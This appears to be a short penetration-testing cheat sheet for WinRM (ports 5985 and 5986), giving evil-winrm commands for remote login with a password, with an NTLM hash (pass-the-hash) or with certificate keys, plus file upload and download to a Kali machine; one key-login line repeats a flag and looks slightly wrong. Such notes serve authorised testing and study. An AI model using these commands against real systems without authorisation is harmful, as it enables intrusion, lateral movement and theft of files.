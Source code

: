 # 5985,5986 - WinRM

Login with creds:

```sh
evil-winrm -i 192.168.244.162 -u 'jackie' -p 'Password123!'
```

Login with hash:

```shell
evil-winrm -i <IP> -u user -H ntlmhash
```

Login with key:

```sh
evil-winrm -i <IP> -c certificate.pem -k priv-key.pem -S
evil-winrm -i <IP> -c certificate.pem -c <pub-key> -S
```



File upload and download:

```
upload <file>
download <file> <filepath-kali>
```
